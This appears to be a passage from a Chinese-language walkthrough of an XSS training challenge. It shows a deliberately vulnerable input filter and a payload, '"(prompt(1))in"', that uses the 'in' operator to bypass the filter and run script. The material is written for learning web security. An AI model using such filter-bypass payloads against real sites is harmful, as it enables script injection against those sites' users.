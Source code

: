 ### 答案

```
p'rompt(1)

```

## Level 11

* * *

这个题目直接允许注入数据到 script 标签里面，但是过滤了特殊符号。这里的技巧是使用一个数据或者字母拥有操作符的功能，就是 in

### 代码

```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}

```

### 答案

```
"(prompt(1))in"

<script>                                    
    var data = {"action":"login","message":"Welcome back, "(prompt(1))in"."};          
    if (data.action === "login")            
        document.write(data.message)        
</script>

```

### 背景知识

`"test"(alert(1))`虽然会提示语法错误， 但是还是会执行 js 语句。类似的`alert(1)in"test"`也是一样。可以在控制台下使用 F12 执行

## Level 12
